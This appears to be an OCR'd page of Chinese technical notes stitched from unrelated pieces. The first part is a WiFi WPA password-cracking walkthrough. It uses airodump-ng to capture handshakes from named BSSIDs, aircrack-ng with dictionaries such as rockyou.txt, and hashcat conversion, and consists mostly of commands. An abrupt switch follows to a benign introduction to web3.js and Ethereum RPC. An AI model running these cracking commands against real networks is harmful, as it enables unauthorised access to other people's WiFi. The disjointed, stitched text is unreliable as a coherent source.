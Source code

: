 -c 指定信道，上面已经标记目标热点的信道

bssid指定目标路由器的BSSID，就是上面标记的BSSID

-w指定抓取的数据包保存的目录

–ivs 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小

airodump-ng --ivs -c 4 --bssid 5A:C0:A4:B8:24:EF -w wifi1 wlan0monmon

5A:C0:A4:B8:24:EF

7A:8C:1B:F8:C6:2B

https://github.com/conwnet/wpa-dictionary/archive/refs/heads/master.zip

**破解WiFi密码(跑包)** 

aircrack-ng -a2 -b 94:63:72:9F:C6:C7 -w shuzi.txt vivo-01.cap

aircrack-ng -w wordlist.txt wifiDED5A2-01.cap

sudo aircrack-ng /tmp/handshake.cap-01.cap -w
/usr/share/wordlists/rockyou.txt



在破解cap文件之前，要把它转换为hccap文件

 aircrack-ng file.cap -J out.hccap

\# hashcat -m 2500 out.hccap 字典文件



# web3.js查询合约

- Web3 JavaScript app API
- web3.js 是一个JavaScript API库。要使DApp在以太坊上运行，我们可以使用web3.js库提供的web3对象
- web3.js 通过RPC调用与本地节点通信，它可以用于任何暴露了RPC层的以太坊节点
- web3 包含 eth 对象 - web3.eth（专门与以太坊区块链交互）和 shh 对象 - web3.shh（用于与 Whisper 交互）

可以帮助智能合约开发者使用HTTP或者IPC与本地的或者远程的以太坊节点交互。实际上就是一个库的集合，主要包括下面几个库：

- `web3-eth`用来与以太坊区块链和智能合约交互
- `web3-shh`用来控制whisper协议与p2p通信以及广播
- `web3-bzz`用来与swarm协议交互
- `web3-utils`包含了一些Dapp开发有用的功能

Web3与geth通信使用的是JSON-RPC ，这是一种轻量级的RPC（Remote Procedure Call）协议，整个通信的模型可以抽象为下图。

![](https://pic4.zhimg.com/80/v2-1c560cdb727cbf4c80b3ce4309894983_720w.jpg)

需要将 web3.js 引入到项目中。 可以使用以下方法来完成：

- npm: `npm install web3`
- meteor: `meteor add ethereum:web3`
- pure js: link the `dist/web3.min.js`

需要创建一个 web3 的实例，设置一个 provider。 支持以太坊的浏览器如 Mist 或 MetaMask 会有提供一个 `ethereumProvider` 或 `web3.currentProvider` 。
